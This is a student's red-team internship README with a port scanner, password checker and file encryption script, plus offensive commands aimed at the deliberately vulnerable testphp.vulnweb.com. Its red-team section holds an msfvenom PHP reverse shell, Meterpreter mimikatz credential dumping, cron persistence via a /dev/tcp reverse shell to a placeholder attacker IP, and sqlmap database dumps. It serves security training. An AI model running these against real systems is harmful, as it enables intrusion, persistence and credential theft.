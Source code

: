 # Hack Secure Internship: Red Team Tasks  
**Student Name:** Daniel Muthama  
**University:** Maseno University  
**GitHub Repository:** [Link](https://github.com/danielmuthama23/Red-Team_Hack-Secure-Internship-Project.git)  

---

## Overview  
This repository contains scripts, commands, and methodologies used during the Hack Secure Red Team internship. Below are the codes and tools implemented for the tasks.  

---

## Tools and Scripts  

### 1. Python Port Scanner  

#### Scans open ports on a target IP address.  
    import socket
    from concurrent.futures import ThreadPoolExecutor

    def scan_port(ip, port):
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(1)
                s.connect((ip, port))
                print(f"[+] Port {port} is open")
                return port
        except:
            return None

    def port_scanner(ip, start_port, end_port):
        open_ports = []
        with ThreadPoolExecutor(max_workers=100) as executor:
            futures = [executor.submit(scan_port, ip, port) for port in range(start_port, end_port+1)]
            for future in futures:
                result = future.result()
                if result:
                    open_ports.append(result)
        return open_ports

    # Example usage:

    ip = "testphp.vulnweb.com"
    start_port = 1
    end_port = 100
    open_ports = port_scanner(ip, start_port, end_port)
    print(f"Open ports: {open_ports}")

### 2. Password Strength Checker

Evaluates password strength using regex and zxcvbn.

    import re
    import zxcvbn

    def password_strength(password):
        result = zxcvbn.zxcvbn(password)
        score = result['score']
        feedback = result['feedback']['warning'] if result['feedback']['warning'] else "No feedback"
        
        strength = {
            0: "Very Weak",
            1: "Weak",
            2: "Moderate",
            3: "Strong",
            4: "Very Strong"
        }
        return f"Strength: {strength[score]}. Feedback: {feedback}"

    # Usage:
    password = input("Enter password: ")
    print(password_strength(password))

### 3. File Encryption/Decryption Tool

Encrypts/decrypts files using Fernet (AES).

    from cryptography.fernet import Fernet
    import os

    def generate_key():
        return Fernet.generate_key()

    def save_key(key, filename="secret.key"):
        with open(filename, "wb") as key_file:
            key_file.write(key)

    def load_key(filename="secret.key"):
        return open(filename, "rb").read()

    def encrypt_file(key, input_file, output_file):
        cipher = Fernet(key)
        with open(input_file, "rb") as f:
            data = f.read()
        encrypted_data = cipher.encrypt(data)
        with open(output_file, "wb") as f:
            f.write(encrypted_data)

    def decrypt_file(key, input_file, output_file):
        cipher = Fernet(key)
        with open(input_file, "rb") as f:
            encrypted_data = f.read()
        decrypted_data = cipher.decrypt(encrypted_data)
        with open(output_file, "wb") as f:
            f.write(decrypted_data)

# Usage:

    key = generate_key()
    save_key(key)
    encrypt_file(key, "plain.txt", "encrypted.txt")
    decrypt_file(key, "encrypted.txt", "decrypted.txt")

**Command-Line Tools:**

1. Nmap Port Scanning

        nmap -sV -p- -T4 -oN nmap_scan.txt testphp.vulnweb.com

2. Gobuster Directory Bruteforcing

        gobuster dir -u http://testphp.vulnweb.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html -o gobuster_scan.txt

3. SQL Injection with sqlmap

        sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs --batch

4. Wireshark Filter for Credential Capture

        http.request.method == "POST"

**Red Team Tasks**

1. Metasploit Reverse Shell Payload

        msfvenom -p php/reverse_php LHOST=<YOUR_IP> LPORT=4444 -o shell.php

2. Meterpreter Post-Exploitation

    # After gaining shell:

        meterpreter > load mimikatz
        meterpreter > wdigest

3. Persistence via Cron Job

        echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'" | crontab -

Usage Examples
**Port Scanner:**

        port_scanner("testphp.vulnweb.com", 1, 100)

**File Encryption:**

        encrypt_file(key, "report.docx", "encrypted_report.docx")

**SQLi Automation:**

        sqlmap -u "http://testphp.vulnweb.com/login.php" --forms --dump

**Prerequisites**

        Python 3.x

**Libraries:**

        pip install cryptography zxcvbn


**Tools:**

Nmap, Gobuster, Wireshark, sqlmap, Metasploit.